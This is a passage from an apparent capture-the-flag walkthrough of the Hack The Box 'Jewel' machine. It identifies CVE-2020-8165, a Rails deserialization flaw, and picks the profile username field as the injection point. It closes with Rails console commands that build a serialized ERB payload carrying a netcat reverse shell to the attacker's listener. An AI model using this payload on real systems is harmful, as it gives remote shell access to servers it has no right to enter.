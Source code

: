 Before digging into the source and the site more, it is worth Googling for exploits of these versions of Ruby and Rails. When searching for `Ruby on Rails 5.2.2.1 Exploits` we find a lot of details on an RCE exploit, but everything about it points to it having been patched in this version. However, when opening the search a bit to `Ruby on Rails 5.2 Exploits` We find [CVE-2020-8165](https://www.rapid7.com/db/vulnerabilities/ruby_on_rails-cve-2020-8165/), a much more recent CVE that effects versions of rails before `5.2.4.3`. This appears to be an untrusted data deserialization vulnerability that we may be able to exploit for RCE.

Doing a Google search for `CVE-2020-8165 POC`, we find [this page](https://github.com/masahiro331/CVE-2020-8165) on GitHub. The exploit process shown here is just using the rails console to generate a serialized payload that contains a command to create a file named `rce` in the `/tmp` directory on the target. We may be able to crate out own payload, with a reverse shell command, and then find a place to put in on the site. This may result in us getting a reverse shell.

## Testing CVE-2020-8165 - Foothold/User Flag
To try exploiting this, we need to find a place where we can submit the payload, and that we can load a page that will attempt to deserialize it. There is a signup page that allows us to create an account on the blog. Once we create an account, we do not have the ability to create posts, or add comments. However, we do have the ability to update one thing, our username. Seems like the likely candidate if this vulnerability can be exploited considering it is the only location that we can do it. This can be done by clicking the `Profile` button in the right side of the top navigation.

![](/assets/images/htb-jewel/06_jewel_blog_profile.png)

To generate the payload, you can walk through the Exploit steps found on the GitHub page. Just a warning, if you're like me and new to Rails, you will likely have to troubleshoot through a lot of errors and install a lot of packages before you get this working successfully.

Once you get it working correctly, you will create a new rails project in your working directory, change to the project directory and then start the `rails console`. Then you can proceed to step though the commands that are listed on the GitHub page. Your commands will look something like this.

``` bash
rails new generate
cd generate
rails console

code = '`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR TUNNEL IP> <YOUR LISTENING PORT> >/tmp/f`'
erb = ERB.allocate
erb.instance_variable_set :@src, code
erb.instance_variable_set :@filename, "1"
erb.instance_variable_set :@lineno, 1
payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
puts URI.encode_www_form(payload: payload)
```